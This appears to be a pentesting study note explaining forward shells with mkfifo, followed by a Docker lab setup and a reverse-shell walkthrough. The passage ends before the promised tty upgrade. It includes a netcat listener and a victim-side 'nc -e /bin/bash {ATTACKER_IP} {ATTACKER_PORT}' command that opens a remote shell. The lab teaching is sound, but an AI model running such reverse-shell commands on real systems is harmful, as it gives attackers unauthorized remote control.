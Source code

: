 This technique is used when Reverse or Bind connections cannot be established due to Firewall rules implemented on the network. It is achieved by using mkfifo, which creates a FIFO (named pipe) file, which is used as a kind of interactive "simulated console" through which the attacker can operate on the remote machine. Instead of establishing a direct connection, the attacker redirects traffic through the FIFO file, allowing bidirectional communication with the remote machine.

----

# Example

In this example we will be running an apache2 service inside our [[Docker]] container, applying port-forwarding in our port 80:

```dockerfile
FROM ubuntu:latest

ENV DEBIAN_FRONTEND noninteractive

RUN apt update && apt install -y apache2 \
  php \
  nano \
  ncat \
  iptables \
  net-tools

EXPOSE 80

ENTRYPOINT service apache2 start && /bin/bash
```

Then we build the image and the container and we enter inside it:

```dockerfile
docker build -t my_image .
docker run -dit -p 80:80 --cap-add=NET_ADMIN --name myContainer my_image
docker exec -it myContainer bash
```

## Reverse shell

In our local machine (attacker) we will use netcat to listen incoming connections:

```shell
nc -nlvp {PORT}
```

In our docker container (victim) we will use netcat to connect to the attacker machine, offering a bash shell:

```shell
# CAUTION: The IP is the corresponding to 'docker0' interface in this case
nc -e /bin/bash {ATTACKER_IP} {ATTACKER_PORT}
```

Finally we can obtain an interactive shell (tty) in order to make the shell prettier:
